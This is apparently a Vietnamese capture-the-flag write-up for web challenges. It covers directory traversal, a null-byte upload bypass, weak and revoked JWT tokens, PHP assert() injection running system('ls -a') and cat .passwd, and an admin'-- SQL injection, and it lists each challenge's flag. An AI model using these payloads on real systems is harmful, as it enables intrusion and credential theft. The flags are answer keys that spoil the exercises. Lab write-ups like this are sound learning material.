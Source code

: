 ## 21. Directory traversal
- Bài này dò path ẩn qua truyền tham số vào biến galerie=.
- Phát hiện được 1 path lạ 86hwnX2r
```js
<table id="content">
        <tr>
            <td><img width="64px" height="64px" src="galerie//86hwnX2r" alt="86hwnX2r">
            </td>
        </tr>
        <tr>
            <td><img width="64px" height="64px" src="galerie//emotes" alt="emotes">
            </td>
            <td><img width="64px" height="64px" src="galerie//apps" alt="apps">
            </td>
            <td><img width="64px" height="64px" src="galerie//devices" alt="devices">
            </td>
        </tr>
        <tr>
            <td><img width="64px" height="64px" src="galerie//categories" alt="categories">
            </td>
            <td><img width="64px" height="64px" src="galerie//actions" alt="actions">
            </td>
        </tr>
    </table>
```
- Vô xem thì có file password đọc thôi
```js
<table id="content">
    <tr></tr>
    <tr>
        <td><img width="64px" height="64px" src="galerie/86hwnX2r/password.txt" alt="password.txt">
        </td>
        <td><img width="64px" height="64px" src="galerie/86hwnX2r/hacked_web.jpg" alt="hacked_web.jpg">
        </td>
        <td><img width="64px" height="64px" src="galerie/86hwnX2r/secret.png" alt="secret.png">
        </td>
    </tr>
    <tr></tr>
</table>
```
```js
Password: kcb$!Bx@v4Gs9Ez
```
## 22. File upload - Null byte
- Bài này lỗi ở kí tự null byte vì nó chỉ check đuôi file đến khi gặp kí tự null byte là dừng lại không check nữa nên chỉ cần chèn null byte vô tên file là thành công(injec.php%00.png)
- Lỗi này đã được fix từ phiên bản PHP 5.3.
![Screenshot 2022-05-13 122507](https://i.imgur.com/qne6vo0.png)
![Screenshot 2022-05-13 122521](https://i.imgur.com/67YXMTy.png)
```js
Password: YPNchi2NmTwygr2dgCCF
```
## 23. JSON Web Token (JWT) - Weak secret
- Vào đầu tiên thì họ có đưa một đoạn mess
```js
{"message": "Let's play a small game, I bet you cannot access to my super secret admin section. Make a GET request to /token and use the token you'll get to try to access /admin with a POST request."}
```
- Thì theo đường path /token thì có đưa một đoạn token jwt và yêu cầu POST bằng token đó.
```js
{"Here is your token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw"}
```

- Sau khi post vô /admin thì nhận được mess này
```js
{"message": "method to authenticate is: 'Authorization: Bearer YOURTOKEN'"}
```
- Thêm trường Authorization vô thì nhận tiếp
```js
{"message": "I was right, you are not able to break my super crypto! I use HS512 so no need to have a strong secret!"}
```
- Vô jwt.io để xem trong token có gì 
```js
{"role": "guest"}
```
- Cần thay đổi role thành admin nhưng không có private key nêu do bài yêu cầu brute force password nên dùng jwt_tool để tìm.
![Screenshot 2022-05-14 150511](https://i.imgur.com/f1pgEMn.png)
- Private key là "lol" vậy chỉ cần mã hóa là xong.
![Screenshot 2022-05-14 150745](https://i.imgur.com/fbBgThl.png)
![Screenshot 2022-05-14 150758](https://i.imgur.com/HhdLGkp.png)

```js
Password: PleaseUseAStrongSecretNextTime
```
## 24. JWT - Revoked token
- Đầu tiên vô thì họ cho mess này
```js
POST : /web-serveur/ch63/login <br>
GET : /web-serveur/ch63/admin
```
- POST với login thì nhận được cần phải login dạng json
```js
{"msg":"Bad request. Submit your login / pass as {\"username\":\"admin\",\"password\":\"admin\"}"}
```
- Đăng nhập thì nhận được một token để login vô admin.
![Screenshot 2022-05-14 153527](https://i.imgur.com/igzNIiP.png)
- Vô trang login admin bằng token xem nhận được token bị revoked.
- Để ý đoạn code đề bài cho thì ngay khi đăng nhập thành công thì lập tức token bị cho vào black_list
```python
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
```
- Do đó khi kiểm tra thì token tại trường Authorization bị dính do đó cần bypass đoạn Authorization.
```python
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
```
- Theo như trường Authorization thì giá trị token sẽ bị base64 decode để đọc giữ liệu. Trong khi đó các kí tự "=" có thể bypass được vậy thêm dấu "=" vô sau token là được.

```python
{"Congratzzzz!!!_flag:":"Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld"}
```
## 25. PHP - assert()
- Đầu tiên vô trang index thì phát hiện path đều được truyền qua tham số ?page= điền ?page=' thì xuất hiện 1 lỗi.
```php
Parse error: syntax error, unexpected T_CONSTANT_ENCAPSED_STRING in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/'.php', '..') === false in /challenge/web-serveur/ch47/index.php on line 8
``` 
- Có thể thấy được cú pháp của server là
```php
assert(strpos('include/'.$file.'.php', '..') === false)
```
- Inject vào thôi điền
```php
?page=test' , '') or system('ls -a');//
Lúc đó server sẽ trở thành
assert(strpos('include/test.php', '') or system(ls -a); // '..') === false)
```
- Và hiện file .passwd và đọc thôi

```js
Warning: strpos(): Empty delimiter in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 . .. ._nginx.http-level.inc ._nginx.server-level.inc ._perms ._php53-fpm.pool.inc .git .passwd includes index.php 'includes/alo' ,'') or system("ls -a");//.php'File does not exist

Thay lệnh cat .passwd ra flag

Warning: strpos(): Empty delimiter in /challenge/web-serveur/ch47/index.php(8) : assert code on line 1 The flag is / Le flag est : x4Ss3rT1nglSn0ts4f3A7A1Lx Remember to sanitize all user input! / Pensez à valider toutes les entrées utilisateurs ! Don't use assert! / N'utilisez pas assert ! 'includes/alo','') or system("cat .passwd");//.php'File does not exist
```

```js
Password: x4Ss3rT1nglSn0ts4f3A7A1Lx
```

## 25. PHP - Filters

## 40. SQL injection - Authentication
- Đầu tiên họ cho form đăng nhập thì vì lỗi SQL bình thường nên payload
```js
username = admin'--
password = admin
```
```js
Password: t0_W34k!$
```


